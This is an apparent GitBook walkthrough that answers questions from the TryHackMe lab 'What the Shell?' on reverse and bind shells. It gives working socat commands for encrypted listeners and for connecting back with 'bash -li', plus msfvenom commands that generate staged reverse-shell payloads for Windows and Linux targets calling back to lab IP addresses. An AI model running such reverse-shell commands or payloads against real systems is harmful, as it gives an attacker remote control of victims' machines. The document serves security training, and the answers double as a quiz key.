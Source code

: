 ```yaml
---
description: https://tryhackme.com/room/introtoshells
---
```


# What the Shell?

{% embed url="https://tryhackme.com/room/introtoshells" %}

## Task 6 Socat

#### How would we get socat to listen on TCP port 8080?

{% hint style="success" %}
`TCP-L:8080`
{% endhint %}

## Task 7 Socat Encrypted Shells

#### What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

{% hint style="success" %}
`socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:tty,raw,echo=0`
{% endhint %}

#### If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

{% hint style="success" %}
`socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
{% endhint %}

## Task 9 msfvnom

#### Generate a staged reverse shell for a 64 bit Windows target, in a `.exe` format using your TryHackMe tun0 IP address and a chosen port.

```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=10.6.9.176 \
         -a x64 --platform windows -f exe -o shell.exe
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 06-30-17.png>)

#### Which symbol is used to show that a shell is stageless?

{% hint style="success" %}
\_
{% endhint %}

#### What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is `elf` and the output filename should be `shell`

![](<../../.gitbook/assets/Screenshot from 2022-04-15 06-40-57.png>)

{% hint style="success" %}
`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=443 -f elf -o shell`
{% endhint %}

